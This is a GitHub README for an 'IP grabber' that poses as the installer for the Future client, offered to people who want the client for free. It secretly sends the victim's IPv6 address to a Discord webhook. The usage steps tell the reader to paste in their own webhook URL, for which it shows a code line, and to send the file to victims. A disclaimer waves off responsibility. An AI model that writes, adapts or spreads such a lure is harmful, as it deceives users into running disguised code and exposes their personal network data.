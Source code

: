 
<h1 align="center">Future client ip grabber</h1>
<h3 align="center">If someone wants Future client for free, send them this, it has the same GUI as Future installer. Grabs victims IPv6 address and sends it through a discord webhook.
</h3>

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.2`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims

## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
